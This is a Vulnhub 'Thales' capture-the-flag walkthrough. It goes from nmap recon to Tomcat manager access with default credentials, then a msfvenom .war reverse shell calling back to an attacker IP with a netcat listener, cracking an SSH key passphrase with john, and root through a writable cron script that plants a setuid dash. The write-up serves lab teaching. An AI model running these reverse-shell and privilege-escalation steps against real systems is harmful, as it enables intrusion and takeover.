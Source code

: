 ```yaml
---
title: Vulnhub Thales Walkthrough
layout: post
categories: [Vulnhub]
tags: [ linux , tomcat ] 
toc: true
image:
  path: "/assets/images/thales/THALES.png"
  alt: Vulnhub Thales
---
```


## Recon 
### Nmap
Nmap scan gave us ports :

```bash
nmap -p- -sV --open -sC -Pn 192.168.1.14  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-29 07:22 +01
Nmap scan report for kioptrix3.com (192.168.1.14)
Host is up (0.00082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8c:19:ab:91:72:a5:71:d8:6d:75:1d:8f:65:df:e1:32 (RSA)
|   256 90:6e:a0:ee:d5:29:6c:b9:7b:05:db:c6:82:5c:19:bf (ECDSA)
|_  256 54:4d:7b:e8:f9:7f:21:34:3e:ed:0f:d9:fe:93:bf:00 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.52
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.52
MAC Address: 08:00:27:F2:3B:39 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Enumeration 
### Web Enum & Exploitation :
#### Authentication to Tomcat Manager
we are presented with an apache tomcate dashboard , when we try to login to `host-manager` we are faced with a `401` response code , so we need to brutefoce it 

we tried default user `tomcat` and password `role1` and we are in :


#### Generate .war Format Backdoor

We can use msfvenom for generating a .war format backdoor for java/jsp payload, all you need to do is just follow the given below syntax to create a .war format file and then run Netcat listener.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.108 LPORT=1234 -f war > shell.war

```

we start an `netcat ` listener : 
```
nc -lvp 1234
```

## Cracking encrypted thales id_rsa file :
in the `ssh` directory of user thales we find an `id_rsa` private ssh file but when we tried to log in using it we are prompted to enter a password so we need to crack it using `john `

First we will use `ss2john` on the file `id_rsa ` and save the output to a file 

then we run john`` to crack that file :

```bash 
john --wordlist=/usr/share/wordlists/rockyou.txt idcrack 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (id_rsa)     

```

We try switching our user to `thales` using that password `vodka06` , and it worked .

## Privelege Escalation 
Navigating to the home directory of user `thales ` we find an interesting file:
![](/assets/images/thales/2.png)

by viewing the file permissions we noticed :that we can write anything to that file:

![](/assets/images/thales/3.png)


we will copy the `dash` binary using this command :

```
echo "cp /bin/dash /var/tmp/dash; chmod u+s /var/tmp/dash" >> /usr/local/bin/backup.sh
```

we go to `/var/tmp/` and run the `dash` binary to get root with a `-p` flag for executing in privileged context 
```
 ./dash -p
# id
uid=1000(thales) gid=1000(thales) euid=0(root) groups=1000(thales),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

# cat /root/root.txt
3a1c85bebf8833b0ecae900fb8598b17

```
